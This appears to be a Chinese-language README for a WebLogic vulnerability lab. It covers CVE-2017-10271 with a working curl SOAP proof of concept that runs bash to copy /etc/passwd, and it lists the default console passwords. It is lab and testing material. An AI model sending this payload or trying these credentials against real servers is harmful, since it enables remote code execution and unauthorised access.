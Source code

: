 ## 特殊说明

12.2.1.3 版本登录密码为 `weblogic:weblogic1`

## CVE-2017-10271 - java.beans.XMLDecoder RCE

测试镜像

* src/weblogic/10.3.6/

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
* [Weblogic XMLDecoder RCE分析](http://xxlegend.com/2017/12/22/Weblogic%20CVE-2017-10271%20XMLDecoder%20RCE%E5%88%86%E6%9E%90/)

Poc

```
curl http://127.0.0.1:7011/wls-wsat/CoordinatorPortType -H 'Content-Type: text/xml' --data '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.8.0_151" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>cp /etc/passwd /tmp/hacked</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
```

官方修复方式

* 过滤了 object, new, void, method 等标签

## 运维安全 - weblogic /console/ 弱口令

测试镜像

* src/weblogic/12.2.1.3

默认密码

* weblogic:weblogic1
* weblogic:welcome1



